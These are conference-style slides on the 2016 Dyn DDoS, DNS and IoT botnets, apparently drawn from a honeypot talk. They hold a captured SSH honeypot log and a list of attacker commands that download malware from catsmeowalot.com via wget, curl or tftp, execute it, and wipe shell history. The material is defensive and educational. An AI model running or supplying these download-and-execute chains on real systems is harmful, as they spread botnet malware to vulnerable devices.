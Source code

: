 #HSLIDE

* What happened 21.Oct 2016
* What is DNS and why we should care
* What is/are IoT
* How to build a IoT botnet yourself and how to track one
* Why black- and whitehat hackers love cat pictures?

#HSLIDE?image=media/DNS_no_response.png

#VSLIDE

> Early Friday morning, Dyn, a company that provides Domain Name Servers (DNS) for a lot of heavily trafficked websites and services, came under a massive Distributed Denial of Service (DDoS) attack. This has disrupted access to many sites for people across the U.S. Yes, it’s why your Spotify app is offline, why you can’t stream Netflix, and why Twitter won’t load. 

#HSLIDE

## DNS

```
;; QUESTION SECTION:
;spotify.com.                   IN      A

;; ANSWER SECTION:
spotify.com.            300     IN      A       194.132.197.147
spotify.com.            300     IN      A       194.132.198.165
spotify.com.            300     IN      A       194.132.198.228

;; AUTHORITY SECTION:
spotify.com.            300     IN      NS      ns3.spotify.com.
spotify.com.            300     IN      NS      ns4.spotify.com.
spotify.com.            300     IN      NS      ns5.spotify.com.
spotify.com.            300     IN      NS      ns2.spotify.com.

;; ADDITIONAL SECTION:
ns2.spotify.com.        300     IN      A       194.132.168.117
ns3.spotify.com.        300     IN      A       193.235.32.2
ns4.spotify.com.        300     IN      A       194.132.162.51
ns5.spotify.com.        300     IN      A       194.68.28.185
```

#VSLIDE?image=media/43.png

#VSLIDE?image=media/46.png

#VSLIDE



#HSLIDE

##IOT

"connecting any device with an on and off switch to the Internet (and/or to each other). This includes everything from cellphones, coffee makers, washing machines, headphones, lamps, wearable devices and almost anything else you can think of.  This also applies to components of machines, for example a jet engine of an airplane or the drill of an oil rig."

.. what about Artificial cardiac pacemaker?

#HSLIDE

2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin trying auth password
2016-10-28 05:00:46+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] login attempt [admin/qwerty] succeeded
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] admin authenticated with password
2016-10-28 05:00:49+0200 [SSHService ssh-userauth on HoneyPotTransport,913,125.17.68.42] starting service ssh-connection
2016-10-28 05:00:49+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] channel open
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] executing command "cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c"
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Opening TTY Log: log/tty/20161028-050050-abab97cc-0e.log
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] CMD: cd /tmp; wget http://catsmeowalot.com/lmao.sh || curl -O http://catsmeowalot.com/lmao.sh; chmod 777 lmao.sh; sh lmao.sh; busybox tftp catsmeowalot.com -c get tftp1.sh; chmod 777 tftp1.sh; sh tftp1.sh; busybox tftp -r tftp2.sh -g catsmeowalot.com; chmod 777 tftp2.sh; sh tftp2.sh; rm -rf lmao.sh tftp1.sh tftp2.sh; cd; rm -rf ./bash_history; history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd /tmp
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: wget http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Starting factory <HTTPProgressDownloader: http://catsmeowalot.com/lmao.sh>
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: curl -O http://catsmeowalot.com/lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh lmao.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp catsmeowalot.com -c get tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp1.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: busybox tftp -r tftp2.sh -g catsmeowalot.com
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: chmod 777 tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command not found: sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf lmao.sh tftp1.sh tftp2.sh
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: cd
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: rm -rf ./bash_history
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Command found: history -c
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending request exit-status
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] sending close 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] exitCode: 0
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] received eof, sending ctrl-d to command
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] Closing TTY Log: log/tty/20161028-050050-abab97cc-0e.log after 0 seconds
2016-10-28 05:00:50+0200 [SSHChannel session (0) on SSHService ssh-connection on HoneyPotTransport,913,125.17.68.42] honeypot terminal protocol connection lost disconnected

#HSLIDE

```
cd /tmp && wget -q http://catsmeowalot.com/ayylmao && chmod +x ayylmao && ./ayylmao
cd /tmp && wget -q http://catsmeowalot.com/ayymips && chmod +x ayymips && ./ayymips
cd /tmp && wget -q http://catsmeowalot.com/jackmysh4 && chmod +x jackmysh4 && ./jackmysh4
cd /tmp && wget -q http://catsmeowalot.com/ayyx86 && chmod +x ayyx86 && ./ayyx86
cd /tmp && wget -q http://catsmeowalot.com/ayyarm && chmod +x ayyarm && ./ayyarm
cd /tmp && wget -q http://catsmeowalot.com/ayyi686 && chmod +x ayyi686 && ./ayyi686
cd /tmp && wget -q http://catsmeowalot.com/jackmypowerpc && chmod +x jackmypowerpc && ./jackmypowerpc
cd /tmp && wget -q http://catsmeowalot.com/ayyi586 && chmod +x ayyi586 && ./ayyi586
cd /tmp && wget -q http://catsmeowalot.com/jackmym86k && chmod +x jackmym86k && ./jackmym86k
cd /tmp && wget -q http://catsmeowalot.com/jackmysparc && chmod +x jackmysparc && ./jackmysparc
```

#HSLIDE?image=media/


#HSLIDE


Slides and more on Anycast and DNS:

```
http:// www.pch.net / resources / papers / dns-service-architecture

Bill Woodcock 
woody@pch.net

Gaurab Raj Upadhaya
gaurab@pch.net
```

#HSLIDE

* *Skiddos* did excellent awareness rising capaign, what's next?
  * INDUSTRIAL INTERNET SECURITY FRAMEWORK (http://www.iiconsortium.org/IISF.htm, ~170p)
  * Future-proofing the Connected World (https://downloads.cloudsecurityalliance.org/assets/research/internet-of-things/future-proofing-the-connected-world.pdf, ~70p)

